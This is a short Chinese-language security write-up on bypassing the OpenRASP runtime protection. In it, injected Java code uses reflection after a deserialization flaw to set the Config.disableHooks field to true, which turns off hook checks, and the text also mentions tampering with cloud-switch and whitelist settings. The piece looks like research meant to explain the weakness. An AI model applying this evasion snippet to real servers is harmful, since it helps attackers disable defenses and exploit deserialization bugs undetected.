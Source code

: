 当存在反序列化漏洞可以通过TemplatesImpl加载字节码的时候，可以自己执行恶意内中的代码，可以通过反射区修改对应的属性

```
try {
  Class<?> clz = Thread.currentThread().getContextClassLoader().loadClass("com.baidu.openrasp.config.Config");
  java.lang.reflect.Method getConfig = clz.getDeclaredMethod("getConfig");
  java.lang.reflect.Field disableHooks = clz.getDeclaredField("disableHooks");
  disableHooks.setAccessible(true);
  Object ins = getConfig.invoke(null);

  disableHooks.set(ins,true);
} catch (Exception e) {}
```

将disableHooks返回true，导致在doCheckWithoutRequest直接返回，另外也可以去操作getCloudSwitch和getHookWhiteAll返回值

![image-20231015155849764](images/93.png)

当然在openrasp中这么危险的地方在反序列化中也是默认禁用的

![image-20231015160027726](images/94.png)
